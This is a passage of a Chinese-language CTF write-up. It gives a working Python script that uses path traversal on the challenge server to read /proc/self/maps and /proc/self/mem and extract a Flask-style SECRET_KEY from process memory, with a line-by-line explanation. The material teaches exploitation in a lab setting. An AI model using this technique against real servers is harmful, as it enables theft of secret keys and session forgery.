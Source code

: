 我们也知道了 `/proc/self/mem` 文件 ，可以对当前进程内存进行访问。

总结一下，就是根据 `/proc/self/maps`提供的内存地址映射信息找到 `/proc/self/mem`相应的内存块



由于我们不知道key，但是由于程序在运行时，会将部分信息存入内存中，所以我们只需要找到内存中带有： `*NeepuCTF*` 字样的字符串取出来就是`SECRET_KEY`了

我们编写脚本：

```python
# -*- coding = utf-8 -*-
# @Time : 2023/5/24 23:32
# @Author : Leekos
# @File : cute.py
# @Software : PyCharm

import requests
import re

url = "http://neepusec.fun:28912/r3aDF1le?filename=../../../"
def maps():

    req = requests.get(url=url + "/proc/self/maps")
    text = req.text
    ls = text.split("\n")
    pattern = "([0-9a-z]+)-([0-9a-z]+) rw"
    for l in ls:
        map_addr = re.match(pattern,l) 
        if map_addr:
            # print(map_addr.group(1),"-",map_addr.group(2))
            start = int(map_addr.group(1), 16) #group(1)会得到匹配到的字符串的第1个值，模式串中第1个大括号匹配到的
            end = int(map_addr.group(2), 16)
            mem_url = url + "/proc/self/mem&start="+str(start)+"&end="+str(end)
            requ = requests.get(url=mem_url)
            if "*NeepuCTF*" in requ.text:
                mem_pattern = b"[A-Za-z0-9+/=]{40}\*NeepuCTF\*"
                key = re.findall(mem_pattern, requ.content) # 内存有很多不可打印字符，所以使用字节形式
                print("Secret Key: " + bytes.decode(key[0])) # 将字节解码为字符串
                break



if __name__ == "__main__":
    maps()
```

> 解释一下这个脚本的意思：
>
> 首先获得maps文件的值，然后分隔成列表，进行遍历。
>
> ```python
> pattern = "([0-9a-z]+)-([0-9a-z]+) rw"
> # 匹配maps中有读写权限rw的字符串
> ```
>
> 当匹配到时，if条件为真，将group(1)、group(2)分别转为10进制（代表内存的首末地址）
>
> 然后根据地址读取mem文件的值，如果内存中包含指定字符串就打印出key
